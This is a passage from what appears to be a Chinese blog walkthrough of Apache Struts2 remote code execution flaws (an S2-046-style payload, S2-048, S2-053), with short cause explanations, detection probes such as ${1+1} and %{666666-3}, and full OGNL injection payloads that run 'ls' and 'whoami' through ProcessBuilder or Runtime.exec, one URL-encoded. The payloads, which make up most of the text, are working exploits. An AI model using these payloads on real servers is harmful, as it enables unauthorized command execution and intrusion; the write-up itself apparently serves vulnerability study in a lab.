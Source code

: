 ```
"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} b"

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/84ef287f4c3901c3e3085ce643b02e17.jpeg"/><br/> 我这里没有成功，不知道问题出在了哪里。

#### s2-048

漏洞成因是当ActionMessage接收客户可控的参数数据时，由于后续数据拼接传递后处理不当导致任意代码执行<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2dba83bd66c5b0f72c99fb645f8b3cfe.jpeg"/>

##### 检测

访问/viewSource.action?config=fassName=com.open.jsp<br/> 名称填入${1+1}<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/406d4b9d5debab2507a1b6bd1d1bc429.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8bb035e9cb167b3436b1ba8affb09e70.jpeg"/><br/> 1+1=2

##### 命令执行

whoami

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())).(#q)}

```

#### S2-053

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/154d745c0045ebb4489d86ea8ccf79ee.jpeg"/>

##### 检测

`/hello?redirectUri=%25%7B666666-3%7D`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8e81e6d1800c04f149169b3c372c5a4e.jpeg"/>

##### 命令执行

whoami:

```
/hello?redirectUri=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%27whoami%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27%2Fc%27%2C%23cmd%7D%3A%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew+java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D%0D%0A

```
